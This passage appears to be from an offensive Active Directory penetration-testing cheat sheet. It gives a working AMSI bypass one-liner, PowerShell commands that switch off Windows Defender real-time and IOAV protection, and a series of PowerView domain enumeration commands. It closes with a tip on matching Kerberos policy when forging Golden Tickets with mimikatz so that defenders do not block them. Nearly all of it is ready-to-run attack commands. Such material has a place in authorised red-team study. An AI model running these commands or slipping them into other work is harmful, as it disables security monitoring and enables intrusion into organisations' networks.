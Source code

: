 ```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('s_amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

## Bypass Real-Time-monitoring
```powershell
Powershell Set-MpPreference -DisableRealtimeMonitoring $true
Powershell Set-MpPreference -DisableIOAVProtection $true
```

# Basic Enumeration

Since we bypassed AMSI and Real-Time protection, we can start with Domain Enumeration and map various entities, trusts, relationships and privileges for the target domain.

## PowerView Enumeration

### Get current domain
```powershell
Get-NetDomain
```

### Get object of another domain
```powershell
Get-NetDomain -Domain <domain-name>
```

### Get domain SID for the current domain
```powershell
Get-DomainSID
```

### Get domain policy for the current domain
```powershell
Get-DomainPolicy
(Get-DomainPolicy)."system access"
```

### Get domain policy for another domain
```powershell
(Get-DomainPolicy -domain <domain-name>)."system access"
(Get-DomainPolicy -domain <domain-name>)."kerberos policy"
(Get-DomainPolicy -domain <domain-name>)."Privilege Rights"
# OR
(Get-DomainPolicy)."KerberosPolicy" #Kerberos tickets info(MaxServiceAge)
(Get-DomainPolicy)."SystemAccess" #Password policy
(Get-DomainPolicy).PrivilegeRights #Check your privileges
```
> Keep note of the kerberos policy as it will be required while making Golden Tickets using mimikats will require the same offsets else it will get blocked by the defenders
{: .prompt-danger }
